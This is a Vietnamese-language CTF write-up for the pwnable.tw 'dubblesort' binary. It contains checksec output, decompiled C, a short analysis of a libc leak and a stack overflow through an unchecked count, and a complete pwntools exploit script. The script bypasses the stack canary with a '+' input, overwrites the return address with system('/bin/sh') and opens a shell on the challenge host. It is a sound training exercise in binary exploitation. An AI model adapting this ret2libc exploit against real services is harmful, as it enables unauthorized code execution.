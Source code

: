 # dubblesort

## file

```shell
➜ dubblesort ⚡                                                                                                22:00:27
▶ file dubblesort
dubblesort: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=12a217baf7cbdf2bb5c344ff14adcf7703672fb1, stripped

➜ dubblesort ⚡                                                                                                22:02:41
▶ checksec dubblesort
[*] '/mnt/d/pwn_myself/pwnable_tw/dubblesort/dubblesort'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled

```

## source

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax
  _BYTE *v4; // edi
  unsigned int i; // esi
  unsigned int j; // esi
  int result; // eax
  unsigned int v8; // [esp+18h] [ebp-74h] BYREF
  _BYTE v9[32]; // [esp+1Ch] [ebp-70h] BYREF
  char buf[64]; // [esp+3Ch] [ebp-50h] BYREF
  unsigned int v11; // [esp+7Ch] [ebp-10h]

  v11 = __readgsdword(0x14u);
  sub_8B5();
  __printf_chk(1, "What your name :");
  read(0, buf, 0x40u);
  __printf_chk(1, "Hello %s,How many numbers do you what to sort :");
  __isoc99_scanf("%u", &v8);
  v3 = v8;
  if ( v8 )
  {
    v4 = v9;
    for ( i = 0; i < v8; ++i )
    {
      __printf_chk(1, "Enter the %d number : ");
      fflush(stdout);
      __isoc99_scanf("%u", v4);
      v3 = v8;
      v4 += 4;
    }
  }
  sub_931(v9, v3);
  puts("Result :");
  if ( v8 )
  {
    for ( j = 0; j < v8; ++j )
      __printf_chk(1, "%u ");
  }
  result = 0;
  if ( __readgsdword(0x14u) != v11 )
    sub_BA0();
  return result;
}


unsigned int __cdecl sub_931(unsigned int *a1, int a2)
{
  int v2; // ecx
  int i; // edi
  unsigned int v4; // edx
  unsigned int v5; // esi
  unsigned int *v6; // eax
  unsigned int result; // eax
  unsigned int v8; // [esp+1Ch] [ebp-20h]

  v8 = __readgsdword(0x14u);
  puts("Processing......");
  sleep(1u);
  if ( a2 != 1 )
  {
    v2 = a2 - 2;
    for ( i = (int)&a1[a2 - 1]; ; i -= 4 )
    {
      if ( v2 != -1 )
      {
        v6 = a1;
        do
        {
          v4 = *v6;
          v5 = v6[1];
          if ( *v6 > v5 )
          {
            *v6 = v5;
            v6[1] = v4;
          }
          ++v6;
        }
        while ( (unsigned int *)i != v6 );
        if ( !v2 )
          break;
      }
      --v2;
    }
  }
  result = __readgsdword(0x14u) ^ v8;
  if ( result )
    sub_BA0();
  return result;
}

```

## analysis

- bug ở read, có thể read, tuy nhiên print_chk chống overflow => chỉ có thể print đủ 64 bytes
- bug ở việc chỉ khai báo mảng nhập vô 8 phần tử (32/4) nhưng vẹo nào không filter, nên có thể ghi đè lên stack => ghi đc lên ret 
- **nên nhớ đang phân tích file 64 hay 32-bit để cân nhắc việc leak cho thỏa đáng bởi 32bit thì không cần đưa tham số lên các thanh ghi nên trong bài này không cần leak pie, k cần pop_rdi, chỉ cần leak libc base là xong**


## exploit

***chả hiểu sau mình không exploit trên remote được mặc dù đúng thư viện và mọi thứ okela với local :((***

Cơ mà mình thử các wu của ng khác vẫn ik thể nên maybe lỗi từ remote

À đừng quên pwninit các thứ để có được dubblesort_patched, xem lại bài [này](https://hjn4pwn.github.io/Huyna-blog.github.io/blogs/PWN/Pwn_Pico/herelibc_challenge.html)

```python
from pwn import *

binary = ELF("./dubblesort_patched")
libc = ELF("./libc_32.so.6")

context.binary = binary


def conn():
    if args.REMOTE:
        r = remote("chall.pwnable.tw", 10101)
    else:
        r = process([binary.path])
        #if args.DEBUG:
        #gdb.attach(r, api=True)
    return r


def main():
    r = conn()

    payload = "a"*24
    r.sendlineafter("What your name :" ,payload)
    # log.info("Debugging...")
    # sleep(10)
    r.recvuntil("a"*24)
    leak = u32(r.recv(4))

    log.info("Recv: " + hex(leak))

    libcbase = leak - 0x1b0000 - 0xa
    log.info("Libc base addr: " + hex(libcbase))

    system_offset = libc.symbols[b'system']
    binsh_offset = next(libc.search(b'/bin/sh\x00'))

    system_addr = libcbase + system_offset
    binsh_addr = libcbase + binsh_offset
    log.info("System offset: " + str(system_addr))
    log.info("/bin/sh base offset: " + str(binsh_addr))


    r.sendlineafter("sort :" , "35")

    for i in range(24):
        r.sendlineafter("number : " ,'1')

    r.sendlineafter("number : " ,'+') #canary

    for i in range(9):
        r.sendlineafter("number : " ,str(system_addr))

    for i in range(1):
        r.sendlineafter("number : " ,str(binsh_addr))

    #print(r.recv())
    #r.sendline("ls; cat flag.txt")
    r.interactive()


if __name__ == "__main__":
    main()


```